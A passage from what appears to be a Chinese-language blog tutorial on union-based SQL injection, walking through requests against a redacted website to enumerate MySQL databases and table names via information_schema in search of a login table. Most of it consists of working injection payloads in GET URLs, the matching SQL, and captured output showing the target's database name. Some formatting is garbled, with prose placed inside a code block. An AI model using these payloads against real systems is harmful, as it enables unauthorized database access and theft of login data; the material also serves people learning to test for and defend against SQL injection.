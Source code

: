 ![](https://img-blog.csdn.net/20170729235922178)

但是下面的链接反馈500错误：
http://xxxxx/prefix/CNab')+union+all+select+1,2,3,4,5,
(select+table_name+from+information_schema.tables),7,8\#
这是因为需要将数据库反馈结果拼接成一行，同时还需要指定只获取mfa数据库里面的表，则使用如下方法：
```python
mysql安装成功后可以看到已经存在mysql、information_schema和test这个几个数据库
information_schema库中有一个名为COLUMNS的表，这个表中记录了数据库中所有表的字段信息。
知道这个表后，获取任意表的字段就只需要一条select语句即可。如：
select COLUMN_NAME from information_schema.COLUMNS where table_name = 'your_table_name';
```
(1)GEThttp://xxxxx/prefix/**CN****')+union+all+select+1,2,3,4,5,**
**group_concat(distinct+table_schema),7,8+from+**
**information_schema.columns\#**HTTP/1.1
对应的SQL语句：
select .... from table where area=('cn')
union all select 1,2,3,4,5,group_concat(distinct+table_schema),7,8
from information_schema.columns\#and xxxx;
Fiddleer输出结果如下所示：
information_schema,mfa
<div class="line-block"></div>
<div class="line-block"></div>
(2)GET http://xxxxx/worldmap/view/prefix/**CNab')+union+all+**
**select+1,2,3,4,5,group_concat(distinct+table_schema),7,8+from+**
**information_schema.columns+where+table_schema=database()\#**HTTP/1.1
对应的SQL语句：
select group_concat(distinct+table_schema) from
information_schema.columns where table_schema=database();
本地数据库测试如下图所示：
![](https://img-blog.csdn.net/20170730001009114)

Fiddler输出结果如下所示，同理获取表名。
mfa
<div class="line-block"></div>
<div class="line-block"></div>
**6.数据库获取表名及列名 table_name**
(1)GET http://xxxxx/worldmap/view/prefix/**CNab')+union+all+**
**select+1,2,3,4,5,group_concat(distinct+table_name),7,8+from+**
**information_schema.tables+where+table_schema=database()\#**HTTP/1.1
对应的MySQL语句，table_name、tables表示表名：
select group_concat(distinct+table_name) from
information_schema.tables where table_schema=database();
本地数据库测试如下图所示，输出结果包括该各个表名。

![](https://img-blog.csdn.net/20170730001547427)

输出结果如下所示：
![](https://img-blog.csdn.net/20170730001921143)
问题，但是我并没有找到登录表，原来group_concat有限制，那怎么处理呢？使用limit m,n进行限制，从m开始输出n个字段。平时常使用的是limit n输出前n个字段。
select table_name from information_schema.tables
where table_schema=database() limit 10,5;
本地数据库从10序号开始输出5个字段，如下所示：
![](https://img-blog.csdn.net/20170730002729481)
依次从0开始输出20个字段，并count()统计总共多少张表，总会找到登陆表。
(2)GET http://xxxxx/worldmap/view/prefix/**CNab')+union+all+**
**select+1,2,3,4,5,group_concat(distinct+table_name),7,8+from+**
**(select+table_name+from+information_schema.tables+**
**where+table_schema=database()+limit+0,20)+as+sub\#**HTTP/1.1
对应的MySQL语句如下，使用子查询获取20个表名，再进行拼接输出：
select group_concat(distinct+table_name) from
(select table_name from information_schema.tables
where table_schema=database() limit 0,20)as sub;